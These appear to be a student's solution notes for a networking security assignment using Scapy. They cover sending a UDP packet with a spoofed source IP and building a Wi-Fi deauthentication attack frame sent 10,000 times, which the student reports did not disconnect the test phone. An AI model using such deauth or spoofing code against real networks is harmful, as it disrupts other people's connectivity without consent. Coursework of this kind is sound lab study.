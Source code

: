TODO: rename to .txt

# Assignment 2
## task2-solution:
- Set up a UDP server using nc
	- find own ip address using `ifconfig`
	- `nc -ulp 53`

- Construct UDP datagram
	- `send(IP(src="192.168.0.1", dst="10.0.2.15") / UDP(sport=53,dport=53) / Raw(load="hello world!\n"), count=1)`
	- `IP()` sets router as source and localhost as destination
	- `UDP()` sets source and destination ports (chosen arbitrarily)
	- `Raw()` specifies payload
	- `count` specifies number of packages to send
	- `send()` sends the package.
	- one could also construct package declaring variables, i.e. `a=IP() / a.src="192.168.0.1" / b=UDP(...) / send(a/b/c)`


## task3-solution:
- deauthentication attack
	- find access point MAC address using `arp -a`	-> `ap = "..."`
	- find client MAC address via "about phone" in android settings -> `client = "..."`
	- `deauth_frame = Dot11(addr1=ap, addr2=client, addr3=ap) / Dot11Deauth()`
	- `send(deauth_frame, count=10000)` (or using for loop and `time.sleep(t_in_sec)`)

	- was not able to disconnect phone (maybe due to vm configuration?)
	- but `wireshark(deauth_frame)` classiefies packet correctly as "IEEE 802.11 Deauthentication" 

